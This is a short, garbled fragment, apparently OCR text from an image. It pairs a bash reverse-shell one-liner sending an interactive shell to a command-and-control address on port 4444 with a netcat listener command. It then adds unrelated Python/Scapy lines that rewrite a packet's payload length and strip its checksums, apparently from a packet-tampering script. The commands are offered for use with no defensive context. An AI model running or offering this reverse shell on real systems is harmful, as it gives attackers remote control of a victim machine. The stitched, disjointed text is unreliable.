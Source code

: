 to c2 reverse shell

bash -i >& /dev/tcp/192.168.2.2/4444 0>&1

while i listen:

nc -lvp 4444

modified_packet[Raw].len = len(modified_packet[Raw].load)


# Remove checksums to force recalculation
del modified_packet[IP].chksum
if modified_packet.haslayer(TCP):
    del modified_packet[TCP].chksum